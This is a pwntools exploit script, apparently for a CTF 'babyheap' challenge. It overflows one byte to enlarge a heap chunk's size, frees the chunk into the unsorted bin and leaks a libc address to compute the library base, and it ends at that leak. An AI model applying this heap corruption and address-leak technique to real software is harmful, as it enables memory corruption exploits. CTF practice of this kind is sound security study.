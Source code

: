 ```python
#!/usr/bin/python3
from pwn import *

p=process(["babyheap"],env={"LD_PRELOAD":"/glibc/2.23/64/lib/libc.so.6"})
#p=remote("nc.eonew.cn",10502)
#p=process("babyheap-bak")
context.log_level='Debug'
context.terminal=context.terminal = ['tmux','splitw','-h' ]
gdb.attach(p)

r  = lambda data	:p.recv(data)
ru = lambda data 	:p.recvuntil(data)
s  = lambda data	:p.send(data)
sl = lambda data	:p.sendline(data)

def add(size,data):
  ru("your choice:")
  sl("1")
  ru("size:")
  sl(str(size))
  ru("data:")
  sl(data)

def delete(index):
  ru("your choice:")
  sl("2")
  ru("index:")
  sl(str(index))

def edit(index,data):
  ru("your choice:")
  sl("3")
  ru("index:")
  sl(str(index))
  ru("data:")
  s(data)

def show(index):
  ru("your choice:")
  sl("4")
  ru("index:")
  sl(str(index))


add(0x18,"A"*0x18)#0
add(0x18,"B"*0x18)#1
add(0x18,"C"*0x18)#2
add(0x18,"D"*0x18)#3
#add(0x38,"E"*0x38)#3
add(0x18,"F"*0x18)#4
add(0x18,"I"*0x18) #5
edit(0,"O"*0x18+"\x81")#1's size->0x81
delete(1) #free 1
add(0x18,"GGGG")#6 #let the unsorbin addr into chunk2
show(2) #leak libc addr


p.recv(6)
#print("libc"+hex(u64(p.recv(6).ljust(8,b"\x00"))))
unsortbin=u64(p.recv(6).ljust(8,b"\x00"))
libc=unsortbin-0x39bb78
print("[+] libc_addr="+hex(libc))

```